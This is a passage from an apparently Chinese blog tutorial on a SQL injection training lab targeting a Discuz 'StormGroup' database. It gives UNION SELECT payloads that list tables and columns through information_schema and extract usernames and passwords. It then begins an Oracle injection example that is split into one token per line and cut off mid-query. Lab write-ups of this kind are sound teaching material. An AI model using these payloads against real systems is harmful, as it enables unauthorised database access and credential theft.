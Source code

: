 记录一下数据库名： mozhe_Discuz_StormGroup    

```
 mozhe_Discuz_StormGroup  
```

  
表名：StormGroup_member,notice  
  
这里是联合查询然后选择从 mozhe_Discuz_StormGroup数据库中的information_schema.tables表中，用group_concat函数选取table_name，也就是表名  

```
union select 1,group_concat(table_name),3,4 from information_schema.tables where
table_schema='mozhe_Discuz_StormGroup'

```

  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT1TPgcIRoFXehPYmHNOophVic9QDvicgWlNHhTa8EFvf8lwZ9HeTDgdXu9ibhUwJibfNUujpEp53SNvicQ/640?wx_fmt=png&from=appmsg "")  
  
是这样的一个逻辑  
  
列名：**id,name,password,status**  
  
这里更改只需要改我们要查询的列名，就是表相关参数都该成列的  

```
union select 1,group_concat(column_name),3,4 from information_schema.columns where
table_name='StormGroup_member'

```

  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT1TPgcIRoFXehPYmHNOophVNtiaVAOmAJEB4LywfCwHuXT1ZptnVo9mUZ5aDzHibVicqfzZqziaOwcm3w/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT1TPgcIRoFXehPYmHNOophV5JfJia58ayegTLdtWj44GgDvVNRXIzGjmvIib4YaXKaUQBn45Wz22HMg/640?wx_fmt=png&from=appmsg "")  
  
数据：  
  
union select 1,name,password,4 from StormGroup_member  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT1TPgcIRoFXehPYmHNOophVqI0YKhD8pxIDqJ1T35PtvD1spLq1iaKE9VIPXPl3Deo6icHJ76L9nKNQ/640?wx_fmt=png&from=appmsg "")  
  
information_schema.tables 自带数据库记录mysql所有表名的表  
  
information_schema.columns 自带数据库，记录mysql所有列名的表  
  
Oracle  
  
https:  
//blog.csdn.net/A2893992091/article/details/141365829  
  
and  
1  
=  
2  
union  
select  
(  
select  
distinct  
 owner   
from  
 all_tables   
where  
 rownum  
=  
1  
),  
'2'  
from  